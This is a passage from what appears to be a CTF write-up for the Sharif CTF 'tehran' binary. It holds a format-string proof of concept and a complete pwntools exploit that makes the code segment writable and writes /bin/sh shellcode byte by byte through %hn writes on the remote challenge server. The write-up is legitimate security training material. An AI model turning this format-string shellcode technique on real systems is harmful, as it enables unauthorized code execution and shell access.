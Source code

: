 I whipped together the following poc, which I confirmed in the debugger.

```
begin() {
    puts("%x\n\n", heap_create(10));
    puts("%s\n\n", heap_create(10) - 500);
    fillout(0x8048000, 16384, 7);
    fillout(heap_create(1) & 0xfffff000, 21000, 7);

    puts("%65c%hn", 42, 0x8048000);
    puts("%66c%hn", 42, 0x8048001);

}
```

Then it was just a matter of writing all of the shellcode at the right address.
I chose to write it directly after the call to the interpreter function in
main. When debugging this, you need to make sure, your breakpoints are not
interfering with the shellcode you wrote (or the other way around). This gives
us a nice shell we can enjoy :)

```python
from pwn import *  # NOQA

velf = ELF("./tehran")

gdbscript = """
init-pwndbg
# break *0x0804afef
break *0x0804b6af
# break *0x0804b6ae
"""
# vp = process("./tehran")
# gdb.attach(vp, gdbscript)

vp = remote("ctf.sharif.edu", 54515)

script = """
begin() {
"""

# first make code segment writable
script += "fillout(0x8048000, 16384, 7);\n"

# start writing shellcode here
start_addr = 0x0804bade - 1

sc = shellcraft.i386.linux.sh()
log.info("using shellcode:\n" + sc)
sc = "\x90" * 5 + asm(sc)
log.info(hexdump(sc))

addr = start_addr
for byte in sc:
    fmt = "%{}c%hn".format(ord(byte))
    puts = "puts(\"{}\", 42, 0x{:x});\n".format(fmt, addr)
    addr += 1
    script += puts

script += "\n}\n\nEOF\n"

log.info("using script\n" + script)

vp.sendline(script)

```